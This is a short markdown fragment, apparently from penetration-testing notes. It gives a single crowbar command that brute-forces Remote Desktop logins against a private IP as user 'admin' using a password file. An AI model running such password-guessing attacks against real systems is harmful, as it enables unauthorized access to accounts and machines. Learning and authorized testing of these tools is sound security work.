 ### Remote Desktop Protocol Attack with Crowbar

```bash
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

